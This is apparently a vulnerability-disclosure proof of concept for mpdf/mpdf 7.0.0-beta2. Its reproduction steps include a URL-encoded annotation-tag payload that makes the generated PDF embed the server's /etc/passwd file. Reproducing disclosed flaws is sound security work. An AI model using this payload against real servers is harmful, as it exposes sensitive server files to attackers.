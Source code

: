 # POC for Vulnerability in PHP package `mpdf/mpdf`

- **Issue**: [#356](https://github.com/mpdf/mpdf/issues/356)
- **Package Repository**: [mPDF GitHub](https://github.com/mpdf/mpdf)
- **Package Manager**: [Packagist mPDF](https://packagist.org/packages/mpdf/mpdf)

## Steps to Reproduce:

1. Install a vulnerable version of `mpdf/mpdf`: ```composer require mpdf/mpdf:7.0.0-beta2```
2. Start the website locally: ```php -S localhost:8000```
3. In the browser, go to ```http://localhost:8000/index.php?url=%3Cannotation%20file=%22/etc/passwd%22%20content=%22/etc/passwd%22%20icon=%22Graph%22%20title=%22Attached%20File:%20/etc/passwd%22%20pos-x=%22195%22%20/%3E```
4. A PDF file will be generated with a malicious annotation tag. If you download the pdf and click the annotation, you will see that it opens the stolen server file, in this case ```/etc/passwd```.